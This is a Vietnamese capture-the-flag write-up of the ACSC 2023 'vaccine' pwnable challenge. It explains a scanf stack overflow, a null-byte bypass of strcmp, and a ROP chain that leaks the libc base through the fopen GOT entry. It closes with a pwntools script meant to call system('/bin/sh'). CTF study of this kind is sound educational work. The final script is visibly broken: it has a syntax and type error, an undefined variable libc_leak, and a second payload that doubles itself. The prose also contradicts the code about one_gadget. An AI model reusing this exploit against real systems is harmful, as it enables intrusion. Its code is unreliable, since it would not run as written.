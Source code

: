 > From phis1Ng_ with luv
# ACSC 2023 : vaccine - warmup
**Category:** Pwnable
- Link challenge : [vaccine](https://github.com/w1n-gl0ry/CTF/blob/b65dfe3934341213d459b63d3bd81b0a0453f720/2023/ACSC_2023/vaccine/vaccine)


> nc vaccine.chal.ctf.acsc.asia 1337

Bên lề: Đây là Writeup đầu tay trong năm 2023 của mình, nên là có sai sót gì mong mọi người thông cảm nhé :> 



## Write up

# 1. Tìm lỗi:

Đầu tiên, mình dùng lệnh `file` để xem trong file thực thi có gì:
```
vaccine: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=a158b3c9f204dc1fdf47fefdac488b0da10fc5b0, for GNU/Linux 3.2.0, not stripped
```
Nah, đây là 1 file executable `64 bit` không bị [stripped](https://stackoverflow.com/questions/4698299/set-breakpoint-in-an-stripped-elf-executable) (stripped là gì thì bấm vào để tham khảo thêm nhé), nên ta có thể dễ dàng tìm kiếm các functions trong `IDA` cũng như `gdb`

Như thường lệ của một người chơi Pwn, tải file về và thả vào `IDA` thôi nào !

Nhìn vào hàm main bên dưới:

![vaccine.png](https://github.com/w1n-gl0ry/CTF/blob/449dc437169f924248351d62c2212c896aa0190d/2023/ACSC_2023/vaccine/image/vaccine.png)

Ta thấy, chương trình tạo mảng s2 sau đó bắt ta nhập vào thông qua hàm `scanf()`, nhìn sơ ta dễ thấy hàm `scanf()` không chỉ định độ dài nhập vào nên xuất hiện lỗ hổng `buffer overflow`.

Mình tiến hành kiểm tra các mitigations của file thực thi để xem có khai thác được gì không, dùng lệnh `checksec` để kiểm tra:

```
[*] '/home/w1n_gl0ry/CTF/Pwnable/ACSC2023/vaccine/bin/vaccine'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Hmm, ta thấy chỉ bits `NX` được bật, có nghĩa là chúng ta không thể exploit bằng cách inject shellcode được, nên ta tiếp tục phân tích hàm main,

![vaccine.png](https://github.com/w1n-gl0ry/CTF/blob/fdd8a08e8b941ed321e7e27b6dbedd0bd22b0b75/2023/ACSC_2023/vaccine/image/Screenshot%202023-03-07%20135509.png)

Chương trình kiểm tra toàn bộ biến s2 với các kí tự ASCII `65`, `67`, `71`, `84` tương ứng với các kí tự `A`, `C`, `G`, `T` mà chương trình gọi là `DNA codes`. Nếu khác kí tự nào thì chương trình sẽ thoát ngay lập tức.

Ngược lại, lúc s2 thõa mãn thì chương trình sẽ tiếp tục kiểm tra với mảng s cho trước gồm các kí tự trong file `RNA.txt`. Rõ ràng, ta không thể đoán được nên phải tìm cách bypass đoạn này. Khi tất cả đều thõa mãn thì chúng ta sẽ nhận được reward (maybe là flag :>)

Đến đây, chúng ta chỉ cần bypass các kí tự `DNA codes` và hàm `strcmp(s, s2)`, từ đó ta có thể ghi đè `return addr` bằng payload mà ta mong muốn.

# 2. Ý tưởng:

Làm sao ta có thể bypass được hàm `strcmp()` trong khi ta không biết trong mảng s có gì ?

-> Mấu chốt chính là hàm `scanf()`, dùng lệnh `man 3 scanf` để xem hàm `scanf()` làm gì:
Hàm `scanf()` vẫn sẽ đọc chuỗi cho đến khi gặp kí tự newlines, nhưng kí tự null bytes thì nó vẫn đọc và lúc kết thúc chuỗi hàm sẽ tự động thêm null bytes vào cuối xâu. Ta lợi dụng điều này để ghi đè qua mảng s một kí tự như s2 để bypass được hàm `strcmp()` . Trong khi đó, hàm `strlen()` vẫn thõa mãn. Tuyệt !

Khi ta đã thõa mãn các điều kiện, việc cuối cùng là ghi đè `return addr` về payload mà chúng ta mong muốn.


# 3. Exploit:

[+] Payload 1: Bypass kí tự DNA codes và hàm `strcmp()` :
-> Ta sẽ điền kí tự `A` vào s2 và lấp đầy các kí tự null cho tới mảng s rồi điền kí tiếp tục tự `A`, hàm sẽ tự động null bytes vào cuối xâu nên không cần quan tâm đến mảng s nữa, việc còn lại là lấp đầy `buf` cho tới `ret addr`

Cách 2: Ta sẽ lấp đầy `buf` cho tới `ret addr` bằng các kí tự null -> cũng thõa mãn.

`payload = (b'A' + (offset s2 -> s) * b'\x00' + b'A').ljust(256, b'\x00')`
hoặc
`payload = payload.ljust(256, b'\x00')`

```
[+] Starting local process './vaccine': pid 15939
[*] running in new terminal: ['/usr/bin/gdb', '-q', './vaccine', '15939', '-x', '/tmp/pwn7i3d52cm.gdb']
[+] Waiting for debugger: Done
[*] Switching to interactive mode
Give me vaccine: Congrats! You give the correct vaccine!
Here is your reward: REDACTED
```
Vậy là đã thành công bước đầu, ta tiếp tục tính payload thứ 2,

[+] Payload 2: Tìm các gadgets phù hợp cho việc leak địa chỉ của hàm nào đó trong thư viện, rồi sau đó tính địa chỉ `libc_base`:

Ta dùng lệnh `ROPgadget --binary vaccine | grep "ret" ` :

```
0x0000000000401443 : pop rdi ; ret
0x0000000000401441 : pop rsi ; pop r15 ; ret
0x000000000040101a : ret
```
-> Có thể những gadgets này sẽ giúp ích trong việc exploit của chúng ta.

```
pop_rdi_ret = 0x401443
pop_rsi_ret = 0x401441
ret = 0x40101a
```
Ta lợi dụng hàm puts để in ra địa chỉ hàm `fopen()` trong thư viện, `payload` như sau:

`payload += <pop_rdi_ret> + <địa chỉ hàm fopen_got> + <địa chỉ hàm puts> + <địa chỉ hàm main>`

Ta quay lại hàm main để địa chỉ hàm `fopen()` được in ra.

```
[+] Starting local process './vaccine': pid 16429
[*] running in new terminal: ['/usr/bin/gdb', '-q', './vaccine', '16429', '-x', '/tmp/pwn6jt6gfhv.gdb']
[+] Waiting for debugger: Done
got_leak: 0x7f0377c7f6b0
libc_base:  0x7f0377c00000
[*] Switching to interactive mode
Congrats! You give the correct vaccine!
Here is your reward: REDACTED
```
Thành công lấy leak được địa chỉ và tính được `libc_base`, việc còn lại của ta là thực thi hàm `system('/bin/sh')` !

[+] Payload 3:
Sau khi có địa chỉ hàm `fopen()` ta sẽ tính được địa chỉ `libc_base` , ta tính địa chỉ hàm `system` và chuỗi `/bin/sh` để chiếm được shell.

Tới đây ta dùng one_gadgets để mọi việc dễ dàng hơn (thật ra là mình đã thử cách khác nhưng không thành, có vẻ như chương trình đã cố tình chặn hàm `system()` :>)


# 4. Chiếm cờ:

Đây là toàn bộ file exploit của mình: [asd.py](https://github.com/w1n-gl0ry/CTF/blob/282b01d2218753947b6b7ae75d8f3fc29d1daf3e/2023/ACSC_2023/vaccine/asd.py)
```
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF('./vaccine')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
#r = remote('vaccine.chal.ctf.acsc.asia', 1337)
r = process('./vaccine')

str="""
b* main+417
"""
#gdb.attach(r, str)

pop_rdi_ret = 0x401443
pop_rsi_ret = 0x401441
ret = 0x40101a
payload = b'A' 
payload += + b'\x00'*111
payload += b'A'
payload = payload.ljust(0x100, b'\x00')
payload += p64(0)
payload += p64(pop_rdi_ret)
payload += p64(elf.got['fopen'])
payload += p64(elf.symbols['puts'])
payload += p64(elf.symbols['main'])

r.sendline(payload)

leak = r.recv()
fopen_leak = u64(leak[:6].ljust(8, b"\x00"))
log.info('fopen_leak: ' + fopen_leak)

libc_base = libc_leak - libc.symbols['fopen']
log.info('libc_base: ' + libc_base)

bin_sh = libc_base + next(libc.search(b"/bin/sh\x00"))
system = libc_base + libc.symbols['system']
exit = libc_base + libc.symbols['exit']

payload = b'A' 
payload += b'\x00'*111
payload += b'A'
payload += payload.ljust(0x100, b'\x00')
payload += p64(0)
payload += p64(pop_rdi_ret)
payload += p64(bin_sh)
payload += p64(ret)
payload += p64(system)
payload += p64(exit)

r.sendline(payload)
r.interactive()
```
Chúc mọi người 1 tuần tốt lành !!




